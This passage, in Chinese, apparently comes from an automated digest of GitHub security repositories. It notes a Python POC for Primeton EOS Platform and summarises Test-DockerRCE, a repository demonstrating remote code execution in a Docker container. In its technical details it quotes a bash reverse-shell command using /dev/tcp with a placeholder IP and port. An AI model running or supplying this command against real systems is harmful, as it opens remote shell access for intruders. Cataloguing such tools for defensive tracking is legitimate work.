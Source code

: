 #### 🛠️ 技术细节

> POC 使用 python 脚本

> 用户可以通过 -u 参数指定单个目标URL，或通过 -f 参数指定包含目标URL的文本文件

> 通过修改README文件新增使用说明


#### 🎯 受影响组件

```
• 普元EOS Platform
```

#### ⚡ 价值评估

<details><summary>展开查看详细评估</summary></details>

---

### Test-DockerRCE - Docker容器RCE反弹Shell

#### 📌 仓库信息

| 属性 | 详情 |
|------|------|
| 仓库名称 | [Test-DockerRCE](https://github.com/mfkrypt/Test-DockerRCE) |
| 风险等级 | `CRITICAL` |
| 安全类型 | `漏洞利用` |
| 更新类型 | `SECURITY_CRITICAL` |

#### 📊 代码统计

- 分析提交数: **5**
- 变更文件数: **1**

#### 💡 分析概述

该仓库新增了reverse.sh脚本，其中包含Bash反弹shell的命令，用于演示在Docker容器中实现远程代码执行（RCE）。

#### 🔍 关键发现

| 序号 | 发现内容 |
|------|----------|
| 1 | 创建了reverse.sh脚本，用于反弹shell。 |
| 2 | 脚本包含bash反弹shell的命令。 |
| 3 | 该仓库演示了Docker容器RCE的利用。 |

#### 🛠️ 技术细节

> reverse.sh脚本使用bash -i >& /dev/tcp/IP/PORT 0>&1 命令实现反弹shell。
